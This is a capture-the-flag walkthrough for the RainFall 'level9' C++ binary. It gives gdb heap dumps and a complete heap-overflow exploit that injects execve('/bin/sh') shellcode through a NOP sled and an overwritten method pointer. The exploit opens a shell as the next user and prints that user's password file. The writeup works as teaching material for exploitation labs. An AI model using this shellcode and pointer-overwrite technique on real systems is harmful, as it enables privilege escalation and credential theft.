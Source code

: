 # Walkthrough level9

This program is in c++. We have to [understand each plt function](https://reverseengineering.stackexchange.com/questions/4402/what-is-operator-newunsigned-int) used.  
For example :  
_Znwj --> new  
_Znaj --> new []  

To understand c++ function we have used [name mangling](https://en.wikipedia.org/wiki/Name_mangling#C++).
For example:  
_ZN4Test10methodNamei --> void Test::methodName(int n);   

We have a class named "N" in wich there are an operator +, a buffer, an int, a constructor and a set method "setAnnotation".
We try to run program with param "aaaa".  
The first N instance allocated is at $esp+0x14 address. So we can look at the heap. We can see which buffer start.  

| Address  | Value    |
|----------|----------|
|0x804a008 |this      |
|\*this    |operator +|
|\*this +4 |buffer    |
|\*this+104|int       |

``` bash
(gdb) run aaaa
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level9/level9 aaaa

Breakpoint 2, 0x0804867c in main ()
(gdb) x/xw $esp+0x14
0xbffff724:	0x0804a008
(gdb) x/32xw 0x0804a008
0x804a008:	0x08048848	0x61616161	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
```

We have try to erase operator method of 2nd instance with another address.   
We don't have function who can execute "/bin/sh". So we have decided to write shell code in first instance buffer.   

``` bash
(gdb) run $(python -c 'print "\x90" * 80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x0c\xa0\x04\x08"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level9/level9 $(python -c 'print "\x90" * 80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x0c\xa0\x04\x08"')

Breakpoint 2, 0x0804867c in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Breakpoint 1, 0x08048693 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.
0x90909090 in ?? ()

(gdb) x/32xw 0x0804a008
0x804a008:	0x08048848	0x90909090	0x90909090	0x90909090
0x804a018:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a028:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a038:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a048:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a058:	0x90909090	0x6850c031	0x68732f2f	0x69622f68
0x804a068:	0x89e3896e	0xb0c289c1	0x3180cd0b	0x80cd40c0
0x804a078:	0x0804a00c	0x00000000	0x00000000	0x00000000
```  
We have a Segmentation fault because it try to dereference 0x0804a00c who contains 0x90909090 address.  
So we want to modify this value to a valid address in the NOP area. We have choose `0x804a008 + 8 = 0x804a010`

``` bash
(gdb) run $(python -c 'print "\x10\xa0\x04\x08" + "\x90" * 76 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x0c\xa0\x04\x08"')

(gdb) x/32xw 0x0804a008
0x804a008:	0x08048848	0x0804a010	0x90909090	0x90909090
0x804a018:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a028:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a038:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a048:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a058:	0x90909090	0x6850c031	0x68732f2f	0x69622f68
0x804a068:	0x89e3896e	0xb0c289c1	0x3180cd0b	0x80cd40c0
0x804a078:	0x0804a00c	0x00000000	0x00000000	0x00000000

level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x90" * 76 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ 
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x90" * 76 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
